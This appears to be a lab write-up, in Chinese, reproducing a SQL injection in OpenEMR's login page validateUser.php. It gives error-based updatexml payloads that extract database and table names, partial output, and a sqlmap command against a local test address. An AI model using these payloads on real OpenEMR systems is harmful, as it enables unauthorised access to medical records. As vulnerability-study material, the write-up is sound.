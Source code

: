 登录失败

### SQL Injection —— Manual

PoC给的注入点需要登录才行，用登录部分的注入点也可以，简单看一下发现就是mysql，可以布尔注入也可以报错注入，老样子，记得URL编码

注入点

```
GET /openemr/interface/login/validateUser.php?u=
```

Payload(获取数据库)

```
' or updatexml(1,concat(0x7e,database(),0x7e),1) #
```

Payload(获取表名)

```
select group_concat(table_name) from information_schema.tables where table_schema=database() 

' or updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database() ),0x7e),1) #

' or updatexml(1,concat(0x7e,substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),30,30),0x7e),1) #

' or updatexml(1,concat(0x7e,(select substr(group_concat(table_name),90,30) from information_schema.tables where table_schema=database()),0x7e),1) #
```

```
addresses,amc_misc_data,ar_activity,ar_session,array,audit_details,audit_master,auto_notification,batchcom,billing
```

看起来挺长的，写脚本吧

获取数据表的脚本见`getTables.py`

数据表很长

发现有一个重要问题,`group_concat`是有长度限制的，默认1024，代码调整需要调整，每个表名先取第一个字符，然后拼接即可，太麻烦先不写了，反正不是考试直接SQLMAP

```
' or updatexml(1,concat(0x7e,(select substr(concat(substr(table_name,1,1)),{},30) from information_schema.tables where table_schema=database()),0x7e),1) #
```

### SQL Injection —— Sqlmap

```bash
sqlmap -u http://192.168.159.131/openemr/interface/login/validateUser.php?u= --dbs
```

```
[*] information_schema
[*] openemr
[*] test
```
